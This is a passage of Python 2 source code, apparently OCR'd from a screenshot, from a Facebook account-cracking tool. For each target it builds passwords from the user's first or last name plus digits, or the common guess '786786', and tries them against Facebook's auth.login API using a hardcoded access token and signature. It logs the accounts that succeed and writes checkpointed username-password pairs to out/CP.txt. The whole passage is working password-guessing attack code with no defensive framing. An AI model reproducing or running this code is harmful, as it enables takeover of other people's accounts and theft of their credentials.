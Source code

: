 							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass3 + ' 👽 ' + b['name']
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass3 + ' 👽 ' + b['name']
									cek = open("out/CP.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass4)
								else:
									pass4 = b['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass4 + ' 👽 ' + b['name']
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass4 + ' 👽 ' + b['name']
											cek = open("out/CP.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = '786786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']
													cek = open("out/CP.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
														oks.append(user+pass6)
													else: